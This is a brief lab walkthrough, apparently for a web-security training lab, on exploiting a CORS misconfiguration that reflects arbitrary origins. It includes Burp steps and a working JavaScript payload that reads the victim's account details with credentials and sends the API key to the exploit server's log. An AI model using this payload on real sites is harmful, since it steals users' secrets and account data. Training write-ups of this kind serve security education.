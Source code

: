 # Some cases of Cross-origin resource sharing (CORS)

## 1. CORS vulnerability with basic origin reflection

Log on to the account with `username = wiener`, `password = peter`

Using Burp, the Proxy tab proceeds to search for the `/accountDetails` section where included response information about API key. Then `Send to repeater`.

Adding the Origin: `http:/random-website.com`, then click `send`

After adding Origin, we proceed to return to the website as `Go to exploit server`. Change the server body structure as follows:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Then click `Store` => `View exploit` => `Deliver exploit to victim` => `Access log`

Find the result having the `log?key' return and then insert it into `submit` filed.



